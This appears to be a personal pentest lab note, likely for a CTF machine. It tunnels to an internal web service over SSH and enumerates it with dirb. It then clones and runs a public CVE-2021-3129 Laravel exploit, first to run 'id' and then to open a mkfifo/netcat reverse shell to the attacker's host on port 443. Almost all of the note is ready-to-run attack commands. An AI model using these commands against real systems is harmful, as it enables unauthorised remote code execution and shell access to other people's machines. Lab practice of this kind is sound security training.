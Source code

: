 ```yaml
---
category: Uncategorized
tags: []
---
```

####  example
FIRST, if the .ssh directory does not exist for the user, create it:

![[Port 22 - SSH  ~#Generate key upload to victim]]

Kali:
```bash - kali
ssh -i id_rsa -L 8000:localhost:8000 strapi@$TARGET
```

now visit 127.0.0.1:8000 in web browser

Now run web enumeration tools against localhost:8000/

```bash - kali
dirb http://$TARGET:8000 /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

```bash - kali
git clone https://github.com/nth347/CVE-2021-3129_exploit.git  
```

```bash - kali
cd CVE-2021-3129_exploit  
```

```bash - kali
chmod +x exploit.py
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f"
```

